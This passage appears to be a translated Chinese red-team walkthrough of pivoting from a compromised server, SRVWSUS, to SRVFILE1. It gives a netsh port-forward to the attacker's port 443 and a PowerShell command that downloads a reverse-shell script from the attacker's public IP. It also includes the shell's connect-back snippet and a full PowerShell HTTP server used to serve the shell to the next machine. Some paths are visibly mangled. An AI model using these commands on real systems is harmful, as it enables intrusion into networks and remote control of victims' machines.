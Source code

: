 新服务器需要新的计划了，最新的计划是用我们已有的SRVWSUS shell转到SRVFILE1上

步骤如下：

使用netsh将发送到SRVWSUS 8888端口的所有流量都转到攻击者443端口



```
＃SRVFILE1 &lt; - &gt; SRVWSUS：8888 &lt; - &gt; ATTACKER：443
netsh interface portproxy add v4tov4 listenport = 8888 listenaddress = 0.0.0.0 connectport = 443 connectaddress = &lt;OUR_PUBLIC_IP&gt;
```

在SRVWSUS上传第二个反向shell脚本r2.ps1，在我们的web服务器上：

```
(New-Object Net.WebClient).DownloadFile(‘http://&lt;OUR_PUBLIC_IP&gt;/r2.ps1’, ‘c:tmpr2.ps1’)
```

r2.ps1与之前的脚本不同，因为它是连接到SRVWSUS而不是我们的公共IP



```
…
$client = New-Object System.Net.Sockets.TCPClient(‘’,8888)
…
```

* 在SRVWSUS上下载一个简单的PowerShell HTTPServer：



```
# http.ps1
start-job { # will execute in background
$p=”c:tmp”
$H=New-Object Net.HttpListener
$H.Prefixes.Add(“http://+:8001/”)
$H.Start()
While ($H.IsListening) {
$HC=$H.GetContext()
$HR=$HC.Response
$HR.Headers.Add(“Content-Type”,”text/plain”)
     $file=Join-Path $p ($HC.Request).RawUrl
$text=[IO.File]::ReadAllText($file)
    $text=[Text.Encoding]::UTF8.GetBytes($text)
$HR.ContentLength64 = $text.Length
$HR.OutputStream.Write($text,0,$text.Length)
$HR.Close()
}
$H.Stop()
}
```

启动HTTP监听并且放入后台，SRVFILE1将从这里下载我们的反向shell

```
PS C:tmp&gt; .http.ps1
```
